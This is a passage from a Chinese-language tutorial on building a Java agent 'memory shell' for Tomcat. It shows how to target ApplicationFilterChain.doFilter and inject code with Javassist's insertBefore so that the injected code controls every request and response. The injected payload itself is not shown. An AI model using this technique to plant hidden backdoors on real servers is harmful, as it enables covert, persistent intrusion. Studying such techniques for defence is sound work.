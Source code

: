 ```
    } else {
        internalDoFilter(request,response);
    }
}


```

乍一看内容挺多，其实总结下来就是——调用`this.internalDoFilter()`。所以再来简单看一下`internalDoFilter()`方法：

```
private void internalDoFilter(ServletRequest request,
                                  ServletResponse response)
        throws IOException, ServletException {

        // Call the next filter if there is one
        if (pos < n) {
            ......
        }
}


```

这两个个方法拥有`Request`和`Response`参数。如果能重写其中一个，那就能控制所有的请求和响应！因此，用来作为内存马的入口点简直完美。这里我选择`doFilter()`方法，具体原因会在之后提到。

### Java agent 修改 doFilter

只需要对上面的示例代码做一些变动即可。

1.  指定需要修改的类名和方法名：
    
    ```
    public static final String editClassName = "org.apache.catalina.core.ApplicationFilterChain";
    public static final String editClassName2 = editClassName.replace('.', '/');
    public static final String editMethod = "doFilter";
    
    
    ```
    
2.  为了不破坏程序原本的功能，这里不再使用`setBody()`方法，而是采用`insertBefore()`：
    
    ```
    method.insertBefore(source);
    
    
    ```
    
3.  出于方便考虑，实现一个`readSource()`方法，从文件中读取数据。：
    
    ```
    String source = this.readSource("start.txt");
    
    public static String readSource(String name) {
            String result = "";
            // result = name文件的内容
            return result;
        }
    